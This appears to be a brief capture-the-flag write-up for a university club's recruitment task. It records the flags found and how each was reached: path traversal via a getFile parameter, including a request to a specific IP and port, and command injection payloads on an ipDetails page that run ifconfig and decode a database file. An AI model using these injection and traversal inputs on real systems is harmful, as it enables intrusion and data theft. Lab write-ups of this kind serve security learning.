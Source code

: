 # PCLUBRecruitmentTask-8
pclub{path_trav3rsa1_1s_fun}
this flag was present in the routes.txt file, which could be accessed via path traversal via getFile?file=routes.txt
pclub{WiredinIITK@123}
this was found by decoding the db_user.json file via command injection in in ipDetails page, [8.8.8.8; base64 db_user* | base64 -d]
60:45:bd:af:3f:e5
this mac address was found via path traversal, http://74.225.254.195:2324/getFile?file=/sys/class/net/eth0/address
60:45:bd:af:3f:e5
the mac address could also be found via 8:8:8:8;ifconfig; command injection on the ipdetails page
